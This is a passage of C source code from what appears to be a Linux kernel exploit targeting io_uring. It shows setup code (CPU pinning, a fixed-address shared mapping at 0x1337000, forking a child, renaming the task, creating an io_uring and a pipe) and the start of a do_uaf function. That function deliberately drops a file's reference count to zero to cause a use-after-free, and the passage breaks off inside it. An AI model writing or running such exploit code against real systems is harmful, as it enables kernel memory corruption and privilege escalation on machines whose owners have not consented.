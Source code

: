 ```c

    // Pin to CPU 0
    pin_cpu(0);
    info("Pinned process to core-0");

    // Increase FD limit
    increase_fds();

    // Create shared mem
    g_shmem = mmap(
        (void *)0x1337000,
        page_sz,
        PROT_READ | PROT_WRITE,
        MAP_ANONYMOUS | MAP_FIXED | MAP_SHARED,
        -1,
        0
    );
    if (g_shmem == MAP_FAILED) { err("`mmap()` failed"); }
    info("Shared memory @ 0x%lx", g_shmem);

    // Create child
    g_child = fork();
    if (g_child == -1)
    {
        err("`fork()` failed");
    }

    // Child
    if (g_child ==  0)
    {
        child_exec();
    }
    info("Spawned child: %d", g_child);

    // Change our name
    if (prctl(PR_SET_NAME, OUR_TASK, NULL, NULL, NULL) != 0)
    {
        err("`prctl()` failed");
    }

    // Create io ring
    struct io_uring_params params = { 0 };
    if (io_uring_queue_init_params(8, &g_ring, &params))
    {
        err("`io_uring_queue_init_params()` failed");
    }
    info("Created io_uring");

    // Create pipe
    info("Creating pipe...");
    create_pipe();
}

// Decrement file->f_count to 0 and free the filp
void do_uaf(void)
{
    if (io_uring_unregister_files(&g_ring))
    {
        err("`io_uring_unregister_files()` failed");
    }

    // Let the free actually happen
    usleep(100000);
```